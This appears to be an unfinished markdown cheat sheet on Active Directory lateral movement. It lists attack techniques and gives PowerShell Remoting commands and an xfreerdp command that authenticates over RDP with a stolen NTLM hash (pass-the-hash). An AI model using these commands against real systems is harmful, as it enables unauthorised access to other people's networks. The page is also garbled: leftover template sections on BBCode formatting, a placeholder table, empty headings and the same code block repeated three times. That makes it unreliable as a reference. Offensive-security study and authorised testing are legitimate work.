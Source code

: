 

## Content

**[1. Active Directory Lateral Movement](#heading--1)**

  * [1.1. Understand Lateral Movement in Windows](#heading--1-1)
  * [1.2. What can we use to Move laterally?](#heading--1-2)

**[2. BBCode formatting](#heading--2)**

  * [2.1. Basic text formatting](#heading--2-1)

      * [2.1.1. Not so basic text formatting](#heading--2-1-1)

  * [2.2. Lists, Images, Code](#heading--2-2)
  * [2.3. Special features](#heading--2-3)

----

# Active Directory Lateral Movement

| TTP         | Description |
| ----------- | ----------- |
| Header      | Title       |
| Paragraph   | Text        |

## Understand Lateral Movement in Windows


## What can we use to Move laterally?





- Windows Services
- WinRM
- PsExec
- RDP
- WMI
- DCOM
- Webclient
- CrackMapExec
- MSSQL


## Windows Services



## PowerShell Remoting
Enable PowerShell Remoting on current Machine (Needs Admin Access)

```powershell
Enable-PSRemoting
```

Entering or Starting a new PSSession (Needs Admin Access)

```powershell
$sess = New-PSSession -ComputerName <Name>
Enter-PSSession -ComputerName <Name> OR -Sessions <SessionName>
```

```powershell
$sess = New-PSSession -ComputerName <Name>
Enter-PSSession -ComputerName <Name> OR -Sessions <SessionName>
```

## Lateral Movement usind RDP
If we have a NTLM hash we can have an RDP session

### xFreeRDP

```bash
xfreerdp  +compression +clipboard /dynamic-resolution +toggle-fullscreen /cert-ignore /bpp:8  /u:<Username> /pth:<NTLMHash> /v:<Hostname | IPAddress>
```


```powershell
$sess = New-PSSession -ComputerName <Name>
Enter-PSSession -ComputerName <Name> OR -Sessions <SessionName>
```





